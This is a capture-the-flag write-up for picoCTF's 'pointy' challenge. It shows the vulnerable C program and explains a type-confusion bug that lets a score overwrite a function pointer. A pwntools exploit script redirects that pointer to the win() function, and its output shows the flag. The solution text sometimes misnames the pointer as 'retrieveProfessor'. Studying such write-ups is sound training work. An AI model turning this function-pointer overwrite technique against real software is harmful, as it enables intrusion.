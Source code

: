# pointy
Binary Exploitation, 350 points

## Description:
> Exploit the function pointers in this program.

```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define FLAG_BUFFER 128
#define NAME_SIZE 128
#define MAX_ADDRESSES 1000

int ADRESSES_TAKEN=0;
void *ADDRESSES[MAX_ADDRESSES];

void win() {
    char buf[FLAG_BUFFER];
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    puts(buf);
    fflush(stdout);
}

struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};

void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);
}

void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void* retrieveStudent(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void readLine(char * buff){
    int lastRead = read(STDIN_FILENO, buff, NAME_SIZE-1);
    if (lastRead<=1){
        exit(0);
        puts("could not read... see you!");
    }
    buff[lastRead-1]=0;
}

int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor;
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor);
        puts(professor->name);
        unsigned int value;
	    printf("Input the score: \n");
	    scanf("%u", &value);
        student->scoreProfessor(professor, value);       
    }
    return 0;
}
```


## Solution:

The provided program allows us to enter students and professors. Students can then rate the professors.

Professors are stored in the following structure:
```c
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};
```

Students have a different structure:
```c
struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```


When a student rates a professor, the student's `scoreProfessor` function pointer is called. This function pointer points to:
```c
void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);
}
```

The function assigns to the `lastScore` member of the `struct Professor` structure the value provided by the user via `scanf("%u", &value)`. This it the first bug in the program: It allows us to assign any value an `unsigned int` can represent, not just valid scores in a given range.

The second bug is that the program allows us to retrieve a student using the `retrieveProfessor` function, allowing us in fact to assign any value to the `scoreProfessor` pointer which sits in the same location as the `lastScore` member.

```c
void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}
```

The function does not verify that the pointer retrieved belongs to a professor, it just locates the first member with the name provided as an input parameter.

So, our exploit is as follows:

1. Allocate a student `s1`, and a professor `p1`
2. Request that `s1` rates `s1`, allowing it to override its own `retrieveProfessor` pointer
3. Enter the address of `win` as the score. `s1->retrieveProfessor` becomes a pointer to `win`.
4. Allocate a student `s2` and a professor `s2` (needed just in order to get to the next step)
5. Request that `s1` will be the student that rates (it doesn't matter who)
6. Input any rating. `s1->retrieveProfessor` will be called, calling `win` and giving us the flag.

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/pointy_4_3b3533bd4e08119669feda53e8cb0502/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start()

io.sendlineafter("Input the name of a student", "s1")
io.sendlineafter("Input the name of the favorite professor of a student ", "p1")
io.sendlineafter("Input the name of the student that will give the score ", "s1")
io.sendlineafter("Input the name of the professor that will be scored ", "s1")
io.sendlineafter("Input the score: ", str(exe.symbols["win"]))

io.sendlineafter("Input the name of a student", "s2")
io.sendlineafter("Input the name of the favorite professor of a student ", "p2")
io.sendlineafter("Input the name of the student that will give the score ", "s1")
io.sendlineafter("Input the name of the professor that will be scored ", "p2")
io.sendlineafter("Input the score: ", "0")
io.recvline()

print io.recvline()

io.sendlineafter("Input the name of a student", "")
io.wait()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/pointy# python exploit.py
[*] '/media/sf_CTFs/pico/pointy/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.x7K8Y3kGCL'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/pointy_4_3b3533bd4e08119669feda53e8cb0502'
[+] Starting remote process '/problems/pointy_4_3b3533bd4e08119669feda53e8cb0502/vuln' on 2019shell1.picoctf.com: pid 3362112
picoCTF{g1v1ng_d1R3Ct10n5_c7465fbf}
```